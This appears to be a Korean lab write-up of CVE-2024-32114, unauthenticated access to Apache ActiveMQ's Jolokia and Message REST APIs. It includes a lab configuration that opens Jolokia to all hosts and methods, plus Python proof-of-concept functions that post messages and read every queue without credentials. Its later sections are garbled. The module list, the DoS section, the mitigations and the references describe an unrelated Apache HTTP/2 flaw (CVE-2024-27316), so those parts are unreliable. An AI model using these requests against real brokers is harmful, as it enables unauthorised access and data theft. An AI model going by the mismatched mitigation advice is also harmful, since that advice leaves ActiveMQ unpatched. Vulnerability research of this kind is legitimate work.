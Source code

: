 ```yaml
---
layout: default
title: cve-2024-32114
category: "Apache"
nav_order: 2
parent: cve
---
```


# CVE-2024-32114
{: .no_toc }

Apache ActiveMQ 인증 우회 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
API 웹 컨텍스트(Jolokia JMX REST API 및 Message REST API)가 인증 없이 접근 가능하도록 되어 있어, 원격 공격자가 권한을 상승시키거나 민감한 정보를 탈취할 수 있는 취약점

{: .note-title }
> **Jolokia JMX REST API**는 JMX (Java Management Extensions) MBeans를 HTTP/HTTPS를 통해 RESTful 방식으로 외부에 노출합니다. 이를 통해 외부 클라이언트는 JMX를 통해 제공되는 다양한 관리 기능과 모니터링 데이터를 접근하고 사용할 수 있게 됩니다.<br>

> **Message REST API**는 메세지 브로커인 ActiveMQ와 상호작용하기 위한 RESTful 웹 서비스 인터페이스입니다. 이를 통해 클라이언트는 HTTP 요청을 사용하여 메시지 브로커와 통신할 수 있습니다. Message REST API는 메시지의 생성, 소비, 조회 등의 작업을 수행할 수 있는 기능을 제공합니다.

## 1.2 취약 대상
Apache ActiveMQ 버전 6.1.2 이전

## 1.3 공격 원리
- Apache ActiveMQ 6.1.1 버전의 기본 설정에서 인증 없는 API 접근
- 공격자는 인증이 필요하지 않은 API 엔드포인트를 식별한 후, 악의적인 페이로드를 생성하여 시스템에 전송
- 취약한 API를 통해 시스템 내에서 권한을 상승시키거나 민감한 정보를 탈취
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.56.1)
- Attacker: Windows10 (IP: 172.23.66.206) <br>

ActiveMQ v6.1.1 설치
```bash
## Java 설치, 
sudo apt install openjdk-17-jdk
java -version

## ActiveMQ v6.1.1 설치
cd /usr/local/src
wget https://archive.apache.org/dist/activemq/6.1.1/apache-activemq-6.1.1-bin.tar.gz
tar -xvf  apache-activemq-6.1.1-bin.tar.gz
mkdir /opt/activemq
sudo mv /usr/local/src/apache-activemq-6.1.1/* /opt/activemq

## ActiveMQ 사용 계정 생성 및 /opt 접근을 위한 권한 추가
sudo addgroup --quiet --system activemq
sudo adduser --quiet --system --ingroup activemq --no-create-home --disabled-password activemq
sudo chown -R activemq:activemq /opt/activemq

## 외부 접속을 위한 jetty.xml 수정 (/opt/activemq/conf/jetty.xml)
vi /opt/activemq/conf/jetty.xml 

    <bean id="jettyPort" class="org.apache.activemq.web.WebConsolePort" init-method="start">
        <!-- 127.0.0.1 에서 0.0.0.0 으로 변경 -->
        <property name="host" value="0.0.0.0"/>
        <property name="port" value="8161"/>
    </bean>

## Jolokia 라이브러리 추가
cd /opt/activemq/lib
wget https://repo1.maven.org/maven2/org/jolokia/jolokia-core/1.6.2/jolokia-core-1.6.2.jar

## Jolokia Method 설정
vi /opt/activemq/conf/jolokia-access.xml

<?xml version="1.0" encoding="UTF-8"?>
<restrict>
    <policy>
        <methods>
            <method>LIST</method>
            <method>READ</method>
            <method>EXEC</method>
            <method>WRITE</method>
        </methods>
        <hosts>
            <host>0.0.0.0/0</host>
        </hosts>
    </policy>
    <mbeans>
        <!-- Allow all operations for the broker itself -->
        <mbean>
            <name>org.apache.activemq:*</name>
            <attribute>*</attribute>
            <operation>*</operation>
        </mbean>
        <!-- Allow all operations for Jolokia Config -->
        <mbean>
            <name>jolokia:type=Config</name>
            <operation>*</operation>
        </mbean>
    </mbeans>
</restrict>

## ActiveMQ Service 설정
sudo vi /etc/systemd/system/activemq.service

## 추가
[Unit]
Description=Apache ActiveMQ
After=network.target

[Service]
Type=forking
User=activemq
Group=activemq
ExecStart=/opt/activemq/bin/activemq start
ExecStop=/opt/activemq/bin/activemq stop

[Install]
WantedBy=multi-user.target

## Daemon 재시작
sudo systemctl daemon-reload
sudo systemctl start activemq
sudo systemctl enable activemq
sudo systemctl status activemq

## 접속 확인
http://192.168.56.1:8161/admin
```

<br>구현 된 홈페이지 (192.168.56.1:8161/admin)
![](../../assets/images/cve-2024-32114/homepage.png)

---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>
Code : ↓ (주요 함수 설명)

### import 추가 
{: .no_toc }

```py
import requests
import json
```

### Activemq Api를 이용하여 Message 전송
{: .no_toc }

```py
def send_message(url):
    try:
        destination = 'cve-2024-32114-Test'
        headers = {'Content-Type': 'application/json'}
        data = {
            'type': 'queue',
            'destinationName': destination,
            'body': [
                'cve-2024-32114',
                'POC Test',
                'jolokia api',
                'send message',
                'shw0331'
            ]
        }
        response = requests.post(f"{url}/api/message?type=queue&destination={destination}", json=data, headers=headers)
        print(f'Message sent successfully to {destination}')
    except Exception as e:
        print(f'Error while sending message : ', e)
```

![](../../assets/images/cve-2024-32114/sendMessage.png)

### ActiveMQ의 인증 없이 모든 큐 정보 요청
{: .no_toc }

```py
def get_all_queues(url):
    try:
        response = requests.get(f'{url}/api/jolokia/read/org.apache.activemq:type=Broker,brokerName=localhost,destinationType=Queue,destinationName=*')
        data = response.json()
        print("Get all queues : ", data)
        queues = [value['Name'] for key, value in data['value'].items()]
        return queues

    except Exception as e:
        print("Error while getting queues: ", e)
        return []
```

![](../../assets/images/cve-2024-32114/getAllQueue.png)

---

## 1.6 Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- <a href="https://github.com/aeyesec/CVE-2024-27316_poc" target="_blank">PoC - Apache</a> <br>
- <a href="https://github.com/lockness-Ko/CVE-2024-27316" target="_blank">PoC - DoS</a>

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-32114
[Apache]: https://activemq.apache.org/security-advisories.data/CVE-2024-32114-announcement.txt

